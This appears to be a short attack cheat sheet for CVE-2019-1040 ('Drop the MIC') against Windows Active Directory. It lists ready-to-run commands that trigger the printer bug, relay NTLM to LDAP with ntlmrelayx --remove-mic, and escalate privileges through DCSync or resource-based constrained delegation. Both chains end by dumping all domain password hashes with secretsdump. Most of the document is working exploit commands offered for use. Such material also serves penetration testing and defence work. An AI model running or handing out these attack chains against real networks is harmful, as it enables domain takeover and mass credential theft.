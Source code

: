 # Drop the MIC CVE-2019-1040

### The CVE-2019-1040 vulnerability makes it possible to modify the NTLM authentication packets without invalidating the authentication, and thus enabling an attacker to remove the flags which would prevent relaying from SMB to LDAP

#### 1) Check vulnerability with cve-2019-1040-scanner https://github.com/fox-it/cve-2019-1040-scanner

    python2 scanMIC.py 'DOMAIN/USERNAME:PASSWORD@TARGET'

### Using any AD account, connect over SMB to a victim Exchange server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant DCSync privileges to the attacker account. The attacker account can now use DCSync to dump all password hashes in AD

    python printerbug.py testsegment.local/username@s2012exc.testsegment.local (Terminal 1)

    ntlmrelayx.py --remove-mic --escalate-user ntu -t ldap://s2016dc.testsegment.local (Terminal 2)

    secretsdump.py testsegment/ntu@s2016dc.testsegment.local -just-dc (Terminal 1)

### Using any AD account, connect over SMB to the victim server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant Resource Based Constrained Delegation privileges for the victim server to a computer account under the control of the attacker. The attacker can now authenticate as any user on the victim server.

    ntlmrelayx.py -t ldaps://rlt-dc.relaytest.local --remove-mic --delegate-access (Create new machine account)

    python printerbug.py relaytest.local/username@second-dc-server 10.0.2.6 (Terminal 2)

    getST.py -spn host/second-dc-server.local 'relaytest.local/MACHINE$:PASSWORD'

### Connect using the ticket

    export KRB5CCNAME=DOMAIN_ADMIN_USER_NAME.ccache

    secretsdump.py -k -no-pass second-dc-server.local -just-dc

